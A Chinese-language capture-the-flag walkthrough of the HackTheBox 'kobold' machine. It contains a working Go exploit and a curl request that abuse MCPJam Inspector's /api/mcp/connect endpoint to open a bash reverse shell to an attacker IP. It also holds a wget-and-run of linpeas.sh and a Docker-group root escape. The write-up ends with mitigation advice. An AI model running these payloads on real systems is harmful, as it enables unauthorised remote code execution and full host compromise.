




# Target ：10.129.245.50
# 信息收集
## 端口综合扫描
- **fscan**
```
fscan -h <target_url> -p 端口
```

- 发现80端口尝试curl跟随重定向访问一下发现重定向到https上。
	
- 无影扫描
	
## 旁站FUZZ
- **fuff**进行fuzz
```
ffuf -w /home/kali/桌面/test_dir.txt -u https://kobold.htb/ -H 'Host: FUZZ.kobold.htb' -mc all -fw 4
```

**一些web站点配置了不允许IP访问，因此修改本地映射表将**
	`/etc/hosts` 是Linux系统中一个**静态主机名解析文件**，用于将主机名映射到IP地址。它是DNS解析的**本地替代方案**，优先级通常高于DNS。

## web指纹探测
**whatweb**

### 发现**MCPJam**服务
```plantext
MCPJam Inspector 简介

一、概述

MCPJam Inspector 是开源免费的 MCP 服务器本地测试调试工具，具备全链路可观测性、多模型对比能力。

二、核心功能
1. 实时测试调试：检测本地 / 远程 MCP 服务器请求响应，查看工具调用参数、结果与延迟，定位问题
2. 多模型对比：同一提示词下批量运行模型，对比工具调用逻辑与输出效果
3. 全链路可观测性：完整记录用户 - Agent - 服务器调用链路，串联 JSON-RPC 报文生成追踪日志
4. 工具资源管理：统一查看、调用、校验服务器工具、资源与提示词
5. LLM 工具交互：对接 ChatGPT、Claude、Gemini 等大模型做联调，无需部署生产环境
6. 多协议兼容：支持 STDIO、SSE、Streamable HTTP，适配所有 MCP 服务器
7. CI/CD 集成：提供 CLI 与 SDK，可在流水线完成自动化测试、校验与合规检查
   
三、技术架构
8. 前端：React18 + TypeScript + Tailwind CSS + Radix UI 构建响应式页面
9. 后端：Express.js 框架，依托 WebSocket 完成实时数据通信
10. 命令行：基于 Node.js 开发，便捷启动与配置工具
11. 开源属性：客户端、Inspector、CLI、SDK 全部开源免费，GitHub 可获取源码

四、使用场景
1. 开发阶段：迭代中调试 MCP 服务，提前规避 BUG
2. 工具验证：在线执行服务工具，校验入参与返回结果正确性
3. 多模型评估：横向比对不同 LLM 调用 MCP 服务的表现，优化交互逻辑
4. CI/CD 自动化：集成到发布流水线做自动化测试，保障上线稳定性、

五、总结
MCPJam Inspector 面向 MCP 全栈开发者，集调试、评估、协作于一体。依靠本地测试、多模型比对、链路追踪、流水线集成能力，在投产前排查修复故障，提升 MCP 服务器稳定性与开发效率，且完全开源免费，适用于各类 MCP 开发项目。
```
# 漏洞利用
## 搜索公开漏洞库

**下载源码，这里我将其修改为了go语言版本**
```go
package main

import (
	"bytes"
	"crypto/tls"
	"encoding/json"
	"flag"
	"fmt"
	"io"
	"net/http"
)

func main() {
	var u, l, p string
	flag.StringVar(&u, "u", "", "目标URL")
	flag.StringVar(&l, "l", "", "监听IP")
	flag.StringVar(&p, "p", "", "监听端口")
	flag.Parse()

	if u == "" || l == "" || p == "" {
		fmt.Println("用法: -u http://目标 -l 你的IP -p 端口")
		return
	}

	// 构建payload
	data, _ := json.Marshal(map[string]interface{}{
		"serverConfig": map[string]interface{}{
			"command": "bash",
			"args":    []string{"-c", fmt.Sprintf("bash -i >& /dev/tcp/%s/%s 0>&1", l, p)},
			"env":     map[string]string{},
		},
		"serverId": "Hello666",
	})

	// 发送请求
	client := &http.Client{Transport: &http.Transport{TLSClientConfig: &tls.Config{InsecureSkipVerify: true}}}
	resp, _ := client.Post(u+"/api/mcp/connect", "application/json", bytes.NewBuffer(data))
	defer resp.Body.Close()
	body, _ := io.ReadAll(resp.Body)
	fmt.Printf("状态: %s\n响应: %s\n", resp.Status, string(body))
}
```
- 跨平台编译
```
 $env:GOOS="linux"; $env:GOARCH="amd64"; go build -o exploit_linux mcp.go 
```
## 利用exp开门

- 执行exp前先开启监听

- 这里curl也可以触发，exp的原理就是此curl
```curl
$ curl -k -X POST https://mcp.kobold.htb/api/mcp/connect \
    -H "Content-Type: application/json" \
    -d '{"serverId": "shell1", "serverConfig": {"command": "bash", "args": ["-c", "bash -i >& /dev/tcp/10.10.14.194/4444 0>&1"], "env": {}}}'
```
# 提权
## 寻找SUID，SGID，sudo -l
这里展示了许多，但最后一一尝试均失败了

- 获取user.txt内容

**可以将上面SUID，SGID的命令在此网站上进行搜索，会有对应的利用方式**


## linpeas.sh 嗅探
使用wget下载linpeas.sh到指定路径下然后修改权限后执行
```bash
wget http://10.10.17.82/linpeas.sh && chmod 755 linpeas.sh && ./linpeas.sh
```

这里发现了很多信息，发现/home下的另一个用户在**docker组**下

**这里发现docker守护进程是以root权限运行，而且docker的运行容器也是root权限**
- Docker守护进程以root运行
```bash
root    1660  0.0  1  1872104 73736  ?  Ss  00:55  00 /usr/bin/docker -H fd:// --container=/run/containerd/containerd.sock
```
- 容器运行时也以root运行
```bash
root    1999  0.0  0  16171112 4380  ?  Ss  00:55  00 /usr/bin/docker-proxy --proto tcp --host-ip 127.0.0.1 --host-port 8080 --container-ip 172.17.0.2 --container-port 8080
- Docker代理进程同样是root
- 它在监听127.0.0.1:8080，转发到容器172.17.0.2:8080
```
- 容器运行时（containerd）也是root
```bash
root    1585  0.1  1  1820380 49260  ?  Ss  00:55  03 /usr/bin/containerd
root    1936  0.0  3  1238384 14668  ?  Ss  00:55  00 /usr/bin/containerd-shim-run-v2 ...
```

**容器细节**

## 容器逃逸
是渗透测试中一种非常经典的**Docker提权**手法，它的核心思路是“**借壳取权**”

核心原理：访问Docker套接字 ≈ 拥有Root权限
这一切能成立的大前提是：**Docker守护进程（dockerd）始终以`root`用户身份运行**。它通过`/var/run/docker.sock`这个Unix套接字来接收命令。任何能访问这个套接字的用户或进程，都能以`root`的权限向Docker下发指令。你通过`newgrp docker`临时加入`docker`组，就获得了这个能力。

 **临时加入docker组**
 ```bash
 ben@kobold:~$ newgrp docker
 ```
 - **作用**：`newgrp`命令会启动一个新的Shell，并将你的**有效组ID（GID）** 切换为`docker`。这让你在当前会话中**临时获得**了访问`/var/run/docker.sock`的权限。这一步的成功，说明`ben`这个用户本来就属于`docker`组，只是之前没有生效。

 **运行一个特权容器**
 ```bash
 docker run --rm -it -u 0 --entrypoint sh -v /:/mnt privatebin/nginx-fpm-alpine:2.0.2
 ```
 - 这个命令是提权的核心，逐一拆解参数：

|参数|含义|
|---|---|
|`run`|创建并启动一个新容器|
|`--rm`|容器退出时自动清理，不留痕迹|
|`-it`|分配一个交互式终端（`-i` + `-t`）|
|`-u 0`|**以用户ID 0（即`root`）的身份运行容器内进程**|
|`--entrypoint sh`|将容器的默认入口点覆盖为`sh`（Shell），而不是运行默认服务|
|`-v /:/mnt`|**这是最关键的一步！** 将宿主机的根目录`/`，挂载到容器内的`/mnt`目录。这就像把整个宿主机的文件系统作为一个文件夹，放进了容器里。|
|`privatebin/nginx-fpm-alpine:2.0.2`|指定使用的Docker镜像，该镜像已存在于本地|

- 执行后，你就进入了一个以`root`身份运行的容器Shell（提示符变为`/ #`）。此时，在容器内查看`/mnt`目录，你看到的就是宿主机的全部文件。

**chroot到宿主机的文件系统**
```sh
/ # chroot /mnt sh
```
- `chroot`**命令的作用是**改变当前进程的根目录。执行`chroot /mnt sh`后，`/mnt`目录就变成了新的根目录`/`。
- 因为`/mnt`就是宿主机的真实根目录，所以执行这个命令后，你就**从容器内“切换”到了宿主机的真实文件系统中**，并且因为容器是以`root`运行的，所以你在宿主机内也拥有`root`权限。

**验证身份**
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
# 挂载is what
- 两台电脑
    宿主机：如一台物理服务器。它有自己的硬盘（根目录 /），里面存着系统、密码、flag，什么都有。
    容器：Docker 启动的一个独立的 “小空间”。它像一台精简版的迷你电脑，有自己的文件系统，但通常和宿主机是隔离的。
- 挂载（-v）是建一座 “桥梁”
    参数 -v /:/mnt 的意思是：把宿主机硬盘上的根目录 /，映射到容器电脑里的一个叫 /mnt 的文件夹下。
    这就好比，你在容器电脑上插了一个 “虚拟 U 盘”（/mnt 文件夹），而这个 U 盘里的内容，其实就是宿主机整个硬盘的实时副本。
# shell相关



##  各层典型代表与`shell`位置

| 层次            | 典型代表                                                 | 说明                                        |
| ------------- | ---------------------------------------------------- | ----------------------------------------- |
| **硬件**        | CPU、内存、磁盘                                            | 物理资源，一切的基础                                |
| **内核代码（内核态）** | Linux内核、驱动、`syscall`处理、权限验证（如`capable()`）            | 操作系统的核心，管理硬件并强制执行安全策略。**这里的任何操作都拥有最高权限**。 |
| **用户代码（用户态）** | **你的`shell`就在这里**、普通命令（`id`, `ls`）、Docker客户端、大多数应用程序 | 所有用户进程都运行在此层，受内核的权限管控。                    |
| - 普通用户进程      | `bash`、`nano`、`python`（作为普通用户运行）                     | 受限于启动它们的用户的权限。                            |
| - 特权用户进程      | **Docker守护进程（`dockerd`）**、以`root`运行的容器进程             | 它们虽然是用户态程序，但拥有与内核交互的高级权限。                 |
| - 系统调用接口      | `mount`、`chroot`、`execve`等系统调用                       | 用户态程序请求内核执行特权操作的“门户”。                     |
# **普通的反弹Shell升级为完全交互式TTY**的标准流程。它与原始反弹Shell的核心区别在于**功能完整性和交互体验**。核心区别对比执行某些操作需要完整性高的shell
**升级shell**
```bash
# 第1步：生成PTY（伪终端）
python3 -c 'import pty; pty.spawn("/bin/bash")'
- 这会在当前会话中启动一个新的`/bin/bash`，并分配一个**伪终端（PTY）**，但此时终端参数仍继承自原始Shell（有缺陷）。

# 第2步：后台化并修复终端设置
^Z                 # 将当前Shell（ncat监听进程）放到后台
stty raw -echo; fg # 关闭本地终端的回显和行缓冲，然后前台恢复
# 上面命令回车后直接敲键盘fg回复终端
- `stty raw -echo`：让本地终端进入“原始模式”，不再处理特殊字符（如Ctrl+C），而是直接传递给远程Shell。
- `fg`：把远程Shell调回前台。此时终端和远程Shell之间建立了干净的通道。

# 第3步：设置终端类型
export TERM=xterm
- 告诉远程Shell，它连接的是一个支持颜色、光标移动等功能的标准`xterm`终端。
```

# 攻击原理
**MCPJam 任意命令执行 -> 获得普通 Shell -> 利用 docker 组权限 -> 逃逸到宿主机 root。**
- MCPJam 接口直接使用请求中的 `command` 和 `args` 启动进程，攻击者因此可以让服务器执行任意命令。
- 获得普通用户权限后，该用户属于 `docker` 组。Docker 组本质上接近 root 权限，因为可以通过 Docker 守护进程创建高权限容器。
- 容器又挂载了宿主机的 `/`，因此容器内的 root 可以直接访问宿主机文件系统，最终获得宿主机 root。

**危害：** 整台服务器被完全控制，宿主机文件、容器、配置、密码和其他业务数据都可能被读取或篡改。

**修复重点：**
- 升级或下线 MCPJam，禁止未认证请求执行任意 `command`，管理接口只允许内网访问。
- 从普通用户移除 `docker` 组权限，限制 `/var/run/docker.sock`。
- 禁止容器使用宿主机根目录挂载、特权模式和过多 Linux capabilities。
- 因为已经获得 root，应隔离并重建主机，同时轮换服务器和容器中的所有凭据。

`/var/run/docker.sock`：
```
如果把一个容器挂载了这个文件，容器里的任何进程（包括潜在的黑客程序）都可以通过它向宿主机的 Docker 守护进程发号施令，例如创建新容器、甚至访问宿主机的整个文件系统。这几乎等同于拥有了宿主机的 root 权限，会让容器原本的隔离性形同虚设
```
